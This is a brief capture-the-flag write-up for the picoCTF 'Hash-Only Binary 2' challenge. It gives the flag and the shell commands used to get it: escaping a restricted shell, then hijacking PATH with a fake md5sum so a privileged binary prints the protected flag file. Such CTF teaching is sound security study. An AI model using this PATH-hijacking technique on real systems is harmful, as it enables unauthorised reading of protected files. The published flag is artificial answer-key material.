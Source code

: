 # picoCTF Hash-Only Binary 2 Writeup

**Flag**: `picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_fc0640ae}`

This is done on the PicoCTF servers which actually prohibit us from using GDB but we can assume that flaghasher works exactly the same as it did on Hash-Only-1. 

## Solution

We start in rbash but can escape with:
```bash
bash
```

This sequel works the same as Hash-Only-1, but the binary executes automatically - we can't interact with it directly.

Create a fake `md5sum` that just cats the file:
```bash
echo '#!/bin/bash' > ~/md5sum
echo 'cat "$1"' >> ~/md5sum
chmod +x ~/md5sum
```

Set PATH and the binary runs automatically:
```bash
PATH=~/:$PATH
```

The `flaghasher` binary executes on its own and outputs the flag instead of the hash.

## Key Points
- Same PATH hijacking technique as Hash-Only-1  
- Binary executes automatically, no manual interaction needed
- Create fake `md5sum` that cats instead of hashing